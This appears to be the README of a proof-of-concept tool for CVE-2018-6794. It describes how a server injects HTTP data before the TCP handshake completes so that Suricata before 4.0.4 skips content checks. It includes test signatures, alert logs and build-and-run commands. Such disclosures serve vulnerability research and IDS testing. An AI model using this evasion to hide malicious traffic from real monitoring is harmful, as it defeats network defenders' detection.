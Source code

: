 ## Disclaimer

This program is for Educational purpose ONLY. Do not use it without permission.

## Proof-Of-Concept for CVE-2018-6794.

If as a server side you break a normal TCP 3 way handshake packets order and inject some response data before 3whs is complete then data still will be received by the client but some IDS engines may skip content checks on that.

```
Client    ->  [SYN] [Seq=0 Ack= 0]           ->  Evil Server     # Client starts a TCP 3-way handshake
Client    <-  [SYN, ACK] [Seq=0 Ack= 1]      <-  Evil Server     # Server responses as it should, but ...
Client    <-  [PSH, ACK] [Seq=1 Ack= 1]      <-  Evil Server     # It sends HTTP response before the 3whs is completed
Client    <-  [FIN, ACK] [Seq=83 Ack= 1]     <-  Evil Server     # Moreover it finishes TCP session 
Client    ->  [ACK] [Seq=1 Ack= 84]          ->  Evil Server     # Client finishes TCP 3whs by sending ACK packet and confirms data from server
Client    ->  [PSH, ACK] [Seq=1 Ack= 84]     ->  Evil Server     # Then it sends a HTTP GET request as nothing wrong happened
```

Suricata < 4.0.4 is prone to this issue: HTTP or Stream-TCP signatures will not alert on the injected content.
We do not see any alerts on an evil http response data if we apply the following signatures against PoC network traffic 

```
alert tcp any any -> any any (msg: "TCP BEEN NO_STREAM RULE"; flow: no_stream; content: "been"; sid: 1; )
alert tcp any any -> any any (msg: "TCP BEEN ONLY_STREAM RULE"; flow: only_stream; content: "been"; sid: 2; )
alert http any any -> any any (msg: "HTTP BEEN RULE"; content: "been"; sid: 3; )
alert tcp any any -> any any (msg: "TCP GET NO_STREAM RULE"; flow: no_stream; content: "GET"; sid: 4; )
alert tcp any any -> any any (msg: "TCP GET ONLY_STREAM RULE"; flow: only_stream; content: "GET"; sid: 5; )
alert http any any -> any any (msg: "HTTP GET RULE"; content: "GET"; sid: 6; )

03/02/2018-11:08:13.012990  [**] [1:1:0] TCP BEEN NO_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.101:80 -> 192.168.235.1:56581
03/02/2018-11:08:13.013610  [**] [1:4:0] TCP GET NO_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.1:56581 -> 192.168.235.101:80
03/02/2018-11:08:13.018914  [**] [1:5:0] TCP GET ONLY_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.1:56581 -> 192.168.235.101:80
03/02/2018-11:08:13.018914  [**] [1:6:0] HTTP GET RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.1:56581 -> 192.168.235.101:80
```

This technique may be applied for other Intrusion Detection or Network Monitoring tools and systems.

## Author and Credits
Kirill Shipulin from Positive Technologies (@kirill_wow)

## Usage
```
git clone https://github.com/kirillwow/ids_bypass.git
cd ids_bypass
make
sudo iptables -A OUTPUT -p tcp --sport 80 --tcp-flags RST RST -j DROP
sudo  ./server
sudo ./server -i eno16777736 -p 80
```


![alt PoC](https://github.com/kirillwow/ids_bypass/raw/master/screenshot.png)
